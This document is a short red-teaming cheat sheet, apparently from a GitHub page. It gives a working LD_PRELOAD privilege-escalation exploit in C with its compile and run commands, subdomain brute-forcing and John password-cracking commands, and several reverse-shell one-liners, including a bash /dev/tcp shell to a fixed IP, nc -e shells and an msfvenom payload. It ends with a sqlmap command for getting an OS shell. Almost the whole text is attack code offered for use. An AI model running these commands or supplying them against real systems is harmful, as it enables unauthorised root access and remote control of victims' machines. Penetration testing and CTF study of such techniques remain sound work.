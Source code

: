 # Red Teaming

## Linux Privilege Escalation

### LD PRELOAD

For sudo -l: `(root) SETENV: NOPASSWD: <vulnerable_program>`

Prepare exploit

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}

```

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

And run:

```bash
sudo LD_PRELOAD=/<path_to_exploit>/shell.so <vulnerable_program>
```

## Bruteforce

### Bruteforce subdomains

```bash
gobuster vhost -w <path_to_dict_file> -u http://<url>
```

```bash
wfuzz -w <path_to_dict_file> -u http://<url>/ -H 'Host: FUZZ.<url>' -t 50 --hc 302
```

### Dictionaries

```bash
git clone https://github.com/danielmiessler/SecLists.git
```

### John

Crack zip/rar password

```bash
zip2john <zip_file> > zip.hashes
john --format=zip zip.hashes
```

md5

```bash
john --format=raw-md5 <hash_file>
```

## Reverse shell

### Netcat

Keys:

- -h help
- -v verbose
- -o output file
- -l listening
- -p port
- -s < host > use local IP
- -n Disable DNS & scan num ports over /etc/services
- -w num timeout (seconds)
- -q num time after EOF (seconds)
- -e file execute
- -с command shell command
- -k keep listening (after close session)

Example:

```bash
nc -lvnp <port>
```

### Connect to NetCat

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.42/1443 0>&1"
```
  
```bash
nc -e /bin/bash <your_ip> <port>
```

```cmd
powershell -c cd C:\Users\<user>\Downloads; .\nc64.exe -e cmd.exe <your_ip> <port>
```

### Reverse shell scripts

```bash
git clone https://github.com/BlackArch/webshells.git/
```

### Pretty shell ^^

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
  
### Create connector to nc
  
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<you_ip> LPORT=<you_port> -f elf > r.elf
```

Create http server

```bash
python -m http.server 80
```

## SQL Injection

### sqlmap

Example get os shell (any+query - injection place):

```bash
sqlmap -u 'http://<ip>/<path_to_dangerous_scrip>?<key>=any+query' --cookie="<key>=<value>" --os-shell
```
